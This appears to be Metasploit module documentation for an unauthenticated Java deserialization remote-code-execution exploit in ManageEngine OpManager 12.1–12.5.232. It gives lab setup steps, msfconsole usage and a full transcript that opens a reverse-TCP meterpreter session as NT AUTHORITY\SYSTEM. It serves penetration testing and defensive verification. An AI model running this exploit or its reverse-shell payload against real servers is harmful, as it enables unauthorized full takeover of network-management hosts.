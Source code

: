 ## Vulnerable Application

### Description

An HTTP endpoint used by the Manage Engine OpManager Smart Update Manager component can be leveraged to deserialize an
arbitrary Java object. This can be abused by an unauthenticated remote attacker to execute OS commands in the context of
the OpManager application (NT AUTHORITY\SYSTEM on Windows or root on Linux). This vulnerability is also present in other
products that are built on top of the OpManager application. This vulnerability affects OpManager versions 12.1 -
12.5.232.

### Setup (Windows)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable
1. Accept the default values for all settings (skip registration), until the very end when prompted to start the
  application
1. Unselect the option to start the application
    1. If this option is missed, just navigate to the tray icon where it will say that it's starting and select the
      option to stop it
1. Start a command prompt as an administrative user
1. Navigate to `C:\Program Files\ManageEngine\OpManager\bin`, older versions use `C:\ManageEngine\OpManager\bin`
1. Run `run.bat`
1. View and accept the license terms
1. Press `f` to run the product in Free mode

OpManager should start successfully after a few minutes. At that point the service can be exploited. In this case the
session will be opened in the context of the user that ran the service with `run.bat`. Once the server is restarted and
OpManager starts automatically, the vulnerability can be exploited to open a session in the context of NT
AUTHORITY\SYSTEM.

### Setup (Linux)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable as root
1. Accept the default values for all settings (skip registration)
1. Navigate to `/opt/ManageEngine/OpManagerCentral/bin`
1. Run `run.sh` as root

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/opmanager_sumpdu_deserialization`
1. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload-related options as necessary
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Windows Server 2019 x64 w/ ManageEngine OpManager v12.5.174

```
msf6 > use exploit/multi/http/opmanager_sumpdu_deserialization 
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set TARGET Windows\ PowerShell 
TARGET => Windows PowerShell
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > check
[*] 192.168.159.10:8060 - The target appears to be vulnerable.
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] An HTTP session cookie has been issued
[*] The request handler has been associated with the HTTP session
[*] Sending stage (200262 bytes) to 192.168.159.10
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.10:50295) at 2021-09-13 16:31:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter >
```

[0]: https://archives.manageengine.com/opmanager/
